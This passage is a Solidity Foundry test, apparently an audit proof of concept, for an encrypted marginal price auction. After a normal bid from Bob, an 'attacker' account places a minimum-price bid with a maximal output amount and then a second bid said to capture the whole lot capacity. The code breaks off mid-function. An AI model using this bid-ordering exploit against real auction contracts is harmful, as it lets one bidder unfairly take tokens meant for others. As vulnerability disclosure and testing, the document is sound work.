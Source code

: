 ```solidity
    function test_IncorrectPriceOrdering() public {
        deployEMPAMAuction();

        vm.startPrank(bob);
        uint96 amountBob = 350_000; // Min price is set to 28, this is higher than it roughly 35 QuoteTokens(USDC) tokens for 1e18 baseTokens(SHIB)
        mockQuoteToken.mint(bob, amountBob);
        mockQuoteToken.approve(address(auctionHouse), type(uint256).max);
        uint256 amountOutBob = 10_000e18;
        uint256 salt = uint256(keccak256(abi.encodePacked(uint96(0), bob, amountBob)));

        // Encrypt the message
        (uint256 ciphertextB, Point memory ciphertextPubKeyB) =
            ECIES.encrypt(amountOutBob, recipientPubKey, privateKey, salt);

        Router.BidParams memory bidParamsB = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountBob,
            auctionData: abi.encode(ciphertextB, ciphertextPubKeyB),
            permit2Data: ""
        });
        bytes memory callbackData_;
        auctionHouse.bid(bidParamsB, callbackData_);
        vm.stopPrank();

        vm.startPrank(attacker);
        /// @notice this is the malicious bid subbmited by the attacker
        uint96 amountAttacker = 28; // Min price is set to 28
        mockQuoteToken.mint(attacker, amountAttacker);
        mockQuoteToken.approve(address(auctionHouse), type(uint256).max);
        uint256 amountOutAttacker = type(uint96).max;
        uint256 saltA = uint256(keccak256(abi.encodePacked(uint96(0), attacker, amountAttacker)));

        // Encrypt the message
        (uint256 ciphertextA, Point memory ciphertextPubKeyA) =
            ECIES.encrypt(amountOutAttacker, recipientPubKey, privateKey, saltA);

        Router.BidParams memory bidParamsA = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountAttacker,
            auctionData: abi.encode(ciphertextA, ciphertextPubKeyA),
            permit2Data: ""
        });
        auctionHouse.bid(bidParamsA, callbackData_);

        /// @notice with this bid the attacker can buy the whole capacity
        uint96 amountAttacker1 = 280_000;
        mockQuoteToken.mint(attacker, amountAttacker1);
        uint256 amountOutAttacker1 = 9_500e18;
        uint256 saltA1 = uint256(keccak256(abi.encodePacked(uint96(0), attacker, amountAttacker1)));

        // Encrypt the message
        (uint256 ciphertextA1, Point memory ciphertextPubKeyA1) =
            ECIES.encrypt(amountOutAttacker1, recipientPubKey, privateKey, saltA1);

        Router.BidParams memory bidParamsA1 = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountAttacker1,
            auctionData: abi.encode(ciphertextA1, ciphertextPubKeyA1),
```